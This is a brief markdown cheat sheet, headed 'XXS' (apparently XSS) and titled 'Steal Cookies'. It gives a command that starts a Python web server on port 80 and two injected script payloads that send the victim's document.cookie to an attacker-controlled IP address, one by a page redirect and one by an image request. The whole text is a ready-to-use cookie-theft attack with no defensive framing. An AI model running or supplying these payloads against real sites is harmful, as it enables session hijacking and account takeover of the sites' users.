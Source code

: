 XXS
==================
Steal Cookies
-----------------------
```
# Start Web Server
python -m SimpleHTTPServer 80

<script>document.location="http://192.168.0.60/?c="+document.cookie;</script>
<script>new Image().src="http://192.168.0.60/index.php?c="+document.cookie;</script>
```
